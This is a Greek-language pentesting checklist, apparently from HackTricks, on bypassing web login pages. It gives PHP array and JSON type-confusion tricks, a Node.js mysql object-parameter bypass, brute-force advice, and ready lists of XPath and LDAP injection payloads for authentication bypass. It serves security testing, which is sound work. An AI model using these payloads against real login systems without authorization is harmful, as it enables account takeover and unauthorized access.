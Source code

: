 # Login Bypass

{{#include ../../banners/hacktricks-training.md}}

## **Παράκαμψη κανονικής σύνδεσης**

Αν βρείτε μια σελίδα σύνδεσης, εδώ μπορείτε να βρείτε μερικές τεχνικές για να προσπαθήσετε να την παρακάμψετε:

- Ελέγξτε για **σχόλια** μέσα στη σελίδα (κύληση προς τα κάτω και προς τα δεξιά;)
- Ελέγξτε αν μπορείτε να **πρόσβαση απευθείας στις περιορισμένες σελίδες**
- Ελέγξτε να **μη στείλετε τις παραμέτρους** (μη στείλετε καμία ή μόνο 1)
- Ελέγξτε το **σφάλμα συγκρίσεων PHP:** `user[]=a&pwd=b` , `user=a&pwd[]=b` , `user[]=a&pwd[]=b`
- **Αλλάξτε τον τύπο περιεχομένου σε json** και στείλτε τιμές json (συμπεριλαμβανομένου του bool true)
- Αν λάβετε μια απάντηση που λέει ότι το POST δεν υποστηρίζεται, μπορείτε να προσπαθήσετε να στείλετε το **JSON στο σώμα αλλά με αίτημα GET** με `Content-Type: application/json`
- Ελέγξτε το πιθανό σφάλμα ανάλυσης nodejs (διαβάστε [**αυτό**](https://flattsecurity.medium.com/finding-an-unseen-sql-injection-by-bypassing-escape-functions-in-mysqljs-mysql-90b27f6542b4)): `password[password]=1`
- Το nodejs θα μετατρέψει αυτό το payload σε ένα ερώτημα παρόμοιο με το εξής: ` SELECT id, username, left(password, 8) AS snipped_password, email FROM accounts WHERE username='admin' AND`` `` `**`password=password=1`**`;` το οποίο καθιστά το bit του κωδικού πρόσβασης πάντα αληθές.
- Αν μπορείτε να στείλετε ένα αντικείμενο JSON, μπορείτε να στείλετε `"password":{"password": 1}` για να παρακάμψετε τη σύνδεση.
- Θυμηθείτε ότι για να παρακάμψετε αυτή τη σύνδεση πρέπει ακόμα να **γνωρίζετε και να στείλετε ένα έγκυρο όνομα χρήστη**.
- **Προσθέτοντας την επιλογή `"stringifyObjects":true`** κατά την κλήση του `mysql.createConnection` θα μπλοκάρει τελικά όλες τις απροσδόκητες συμπεριφορές όταν το `Object` περάσει ως παράμετρος.
- Ελέγξτε τα διαπιστευτήρια:
- [**Προεπιλεγμένα διαπιστευτήρια**](../../generic-hacking/brute-force.md#default-credentials) της τεχνολογίας/πλατφόρμας που χρησιμοποιείται
- **Κοινές συνδυασμοί** (root, admin, password, όνομα της τεχνολογίας, προεπιλεγμένος χρήστης με έναν από αυτούς τους κωδικούς πρόσβασης).
- Δημιουργήστε ένα λεξικό χρησιμοποιώντας **Cewl**, **προσθέστε** το **προεπιλεγμένο** όνομα χρήστη και κωδικό πρόσβασης (αν υπάρχει) και προσπαθήστε να το σπάσετε χρησιμοποιώντας όλες τις λέξεις ως **ονόματα χρήστη και κωδικούς πρόσβασης**
- **Brute-force** χρησιμοποιώντας ένα μεγαλύτερο **λεξικό (**[**Brute force**](../../generic-hacking/brute-force.md#http-post-form)**)**

### SQL Injection authentication bypass

[Εδώ μπορείτε να βρείτε διάφορα κόλπα για να παρακάμψετε τη σύνδεση μέσω **SQL injections**](../sql-injection/index.html#authentication-bypass).

Στην επόμενη σελίδα μπορείτε να βρείτε μια **προσαρμοσμένη λίστα για να προσπαθήσετε να παρακάμψετε τη σύνδεση** μέσω SQL Injections:

{{#ref}}
sql-login-bypass.md
{{#endref}}

### No SQL Injection authentication bypass

[Εδώ μπορείτε να βρείτε διάφορα κόλπα για να παρακάμψετε τη σύνδεση μέσω **No SQL Injections**](../nosql-injection.md#basic-authentication-bypass)**.**

Καθώς οι NoSQL Injections απαιτούν να αλλάξετε την τιμή των παραμέτρων, θα χρειαστεί να τις δοκιμάσετε χειροκίνητα.

### XPath Injection authentication bypass

[Εδώ μπορείτε να βρείτε διάφορα κόλπα για να παρακάμψετε τη σύνδεση μέσω **XPath Injection.**](../xpath-injection.md#authentication-bypass)
```
' or '1'='1
' or ''='
' or 1]%00
' or /* or '
' or "a" or '
' or 1 or '
' or true() or '
'or string-length(name(.))<10 or'
'or contains(name,'adm') or'
'or contains(.,'adm') or'
'or position()=2 or'
admin' or '
admin' or '1'='2
```
### LDAP Injection authentication bypass

[Εδώ μπορείτε να βρείτε διάφορα κόλπα για να παρακάμψετε την είσοδο μέσω **LDAP Injection.**](../ldap-injection.md#login-bypass)
```
*
*)(&
*)(|(&
pwd)
*)(|(*
*))%00
admin)(&)
pwd
admin)(!(&(|
pwd))
admin))(|(|
```
### Θυμήσου Με

Αν η σελίδα έχει λειτουργία "**Θυμήσου Με**", έλεγξε πώς είναι υλοποιημένη και δες αν μπορείς να την εκμεταλλευτείς για να **αναλάβεις άλλους λογαριασμούς**.

### Ανακατευθύνσεις

Οι σελίδες συνήθως ανακατευθύνουν τους χρήστες μετά την είσοδο, έλεγξε αν μπορείς να αλλάξεις αυτή την ανακατεύθυνση για να προκαλέσεις μια [**Ανοιχτή Ανακατεύθυνση**](../open-redirect.md). Ίσως μπορέσεις να κλέψεις κάποιες πληροφορίες (κωδικούς, cookies...) αν ανακατευθύνεις τον χρήστη στην ιστοσελίδα σου.

## Άλλοι Έλεγχοι

- Έλεγξε αν μπορείς να **αριθμήσεις ονόματα χρηστών** εκμεταλλευόμενος τη λειτουργία εισόδου.
- Έλεγξε αν είναι ενεργοποιημένο το **αυτόματη συμπλήρωση** στις φόρμες **κωδικού/ευαίσθητων** πληροφοριών **εισόδου:** `<input autocomplete="false">`

## Αυτόματα Εργαλεία

- [HTLogin](https://github.com/akinerkisa/HTLogin)



{{#include ../../banners/hacktricks-training.md}}
